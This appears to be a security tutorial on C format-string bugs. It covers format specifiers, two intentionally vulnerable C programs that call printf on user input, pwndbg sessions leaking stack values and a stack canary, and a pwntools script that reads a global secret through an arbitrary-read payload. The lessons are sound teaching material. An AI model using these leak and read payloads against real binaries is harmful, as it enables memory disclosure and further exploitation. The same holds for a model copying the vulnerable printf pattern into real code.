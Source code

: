 ```yaml
---
layout: page
title: Format Strings
tags: [format_strings, pwn]
---
```


Format specifiers in C are used to take inputs and print the output of a type. It is a way to tell the compiler the type of data that is being used for i/o. They are mostly used with the printf and scanf family of functions such as printf, sprintf, scanf, sscanf. The following table shows the use of various format specifiers in C / C++

<table>
	<thead>
		<tr>
			<th>Format specifier</th>
			<th>Used for</th>
		</tr>
	</thead>
	<tr>
		<td>%c</td>
		<td>A single character</td>
	</tr>
		<tr>
		<td>%s</td>
		<td>A string</td>
		</tr>
	<tr>
		<td>%hi</td>
		<td>short (signed)</td>
	</tr>
	<tr>
		<td>%hu</td>
		<td>short (unsigned)</td>
	</tr>
	<tr>
		<td>%lu</td>
		<td>long (unsigned)</td>
	</tr>
	<tr>
		<td>%i</td>
		<td>A decimal integer</td>
	</tr>
	<tr>
		<td>%o</td>
		<td>An octal integer</td>
	</tr>
	<tr>
		<td>%x</td>
		<td>A hexadecimal integer</td>
	</tr>
	<tr>
		<td>%p</td>
		<td>An address( or pointer )</td>
	</tr>
	<tr>
		<td>%f</td>
		<td>Floating point numbers</td>
	</tr>
	<tr>
		<td>%%</td>
		<td>The % symbol</td>
	</tr>
	<tr>
		<td>%u</td>
		<td>unsigned int</td>
	</tr>
	<tr>
		<td>i$</td>
		<td>Direct parameter access, specifies the parameter to use for input</td>
	</tr>
	<tr>
		<td>%ix</td>
		<td>Width modifier. Specifies the minimum width of output</td>
	</tr>
	<tr>
		<td>%hh</td>
		<td>Specifies that the length is one byte</td>
	</tr>
		<tr>
		<td>%h</td>
		<td>Specifies that the length is two bytes</td>
	</tr>
</table>

## Format String Bug
It occurs when the user input is passed as format argument to the printf of scanf family of functions. Consider a simple C program:
```c
#include<stdio.h>

void func(){
	unsigned long x1 = 0xdeadbeef;
	unsigned long x2 = 0xcafebabe;
	unsigned long x3 = 0xbabecafe;
	unsigned long x4 = 0xd00df00d;
	char buf[32] ;
	fgets(buf,32,stdin);
	printf(buf);
}
int main(){
	func();
	return 0;
}
```
Let's send a bunch of `%p` and see what happens. 
<img src='https://raw.githubusercontent.com/0xSh4dy/0xSh4dy.github.io/master/assets/img/fmtstr/fmtstr_01.png'>
Thus, we see that we can dump local stack variables. Format string bug is so powerful, it may lead to memory corruption and arbitrary code execution. The first few QWORDs come from printf's stack and the data after that comes from the stack of the caller function.
The `rsp` register stores a pointer to the top of the stack. Let's say this pointer is `ptr`. Then, in this case, `%6$p` gives the value stored at `*ptr`, `%7$p` gives the value stored at *(ptr+8), `%8$p` gives the value stored at *(ptr+16) and so on. Let's verify this using `pwndbg`.
```py
pwndbg> b *0x0000000000401263
```
With the breakpoint set right after the call to printf, we can run the program and send this input `%6$p.%7$p.%8$p.%9$p`.

<img src='https://github.com/0xSh4dy/0xSh4dy.github.io/blob/master/assets/img/fmtstr/fmtstr_03.png?raw=true'>
This gives the output `0xdeadbeef.0xcafebabe.0xbabecafe.0xd00df00d`. Let's examine the stack pointer.
```py
pwndbg> p/x $rsp
$1 = 0x7fffffffdce0
pwndbg> x/10gx 0x7fffffffdce0
0x7fffffffdce0:	0x00000000deadbeef	0x00000000cafebabe
0x7fffffffdcf0:	0x00000000babecafe	0x00000000d00df00d
0x7fffffffdd00:	0x2437252e70243625	0x252e702438252e70
0x7fffffffdd10:	0x00007f000a702439	0x00000000004012a0
0x7fffffffdd20:	0x0000000000000000	0x5ff669990d493f00

```
We can also compute the offset to the stack canary using the concept mentioned above. The canary is stored at (ptr+72) which means that the payload to dump it would be %15$p (72/8 + 6 = 15)

```py
pwndbg> r
Starting program: /home/sh4dy/InfoSec/pwn/fmtstr/chall
%15$p
0xd93923e60f223e00
```

### Reading data from a particular address
Instead of reading the data stored at the stack, we would like to read data from any arbitrary location. Consider the following program:
```c
#include<stdio.h>
#include<string.h>

char secret[32];

void setup(){
	strcpy(secret,"format_strings_are_cool");
}

void func(){
	unsigned long x = 0xdeadbeef;
	char buf[32];
	scanf("%32s",buf);
	printf(buf);
}

int main(){
	setup();
	func();
	return 0;
}
```
Our goal is to read the contents of the array `secret`. To do that, we can insert the address of `secret` into the stack and read it using `%s`. The address must be aligned properly.
```py
pwndbg> b *func+77
Breakpoint 1 at 0x401201
```
Let's run the program and send the input `aaaaaaaabbbbbbbb` and dump few QWORDS from the pointer stored at `rsp`
```py
pwndbg> dq  $rsp 10

00007fffffffdd40     00000000000000c2 00000000deadbeef
00007fffffffdd50     6161616161616161 6262626262626262
00007fffffffdd60     00007ffff7fb1200 0000000000401240
00007fffffffdd70     0000000000000000 910b6acb4da2ec00
00007fffffffdd80     00007fffffffdd90 0000000000401234
```
Here, `%6$p` prints `0xc2`, `%7$p` prints `0xdeadbeef` and so on. In order to perform an arbitrary read, we can insert the target address at some location on the stack and read it using `%i$s` where `i` is the offset. This task can be done easily using `pwntools`.

```py
#!/usr/bin/env python3

from pwn import *
elf = context.binary = ELF("./chall")

p = elf.process()

gdb.attach(p,gdbscript="b*func+77")
payload = b'aaaa%9$s'+ p32(elf.sym.secret)
pause()
p.sendline(payload)
p.interactive()
```
Running the script and dumping the stack, we get:
```py
pwndbg> x/10gx $rsp
0x7fff7d03ed10:	0x00000000000000c2	0x00000000deadbeef
0x7fff7d03ed20:	0x7324392561616161	0x0000000000404060
0x7fff7d03ed30:	0x00007fd2daa302e8	0x0000000000401240
0x7fff7d03ed40:	0x0000000000000000	0xef1d016c9183a200
0x7fff7d03ed50:	0x00007fff7d03ed60	0x0000000000401234
```
`0x404060` is the address of the buffer `secret`. It is stored at the offset `9`. Sending `%9$s` with some padding to account for the 8 byte alignment would print the string stored at `0x404060`.
<img src='https://github.com/0xSh4dy/0xSh4dy.github.io/blob/master/assets/img/fmtstr/fmtstr_04.png?raw=true'>

References:
[https://www.freecodecamp.org/news/format-specifiers-in-c/](https://www.freecodecamp.org/news/format-specifiers-in-c/)

[https://kevinalmansa.github.io/application%20security/Format-Strings/](https://kevinalmansa.github.io/application%20security/Format-Strings/)

[https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)

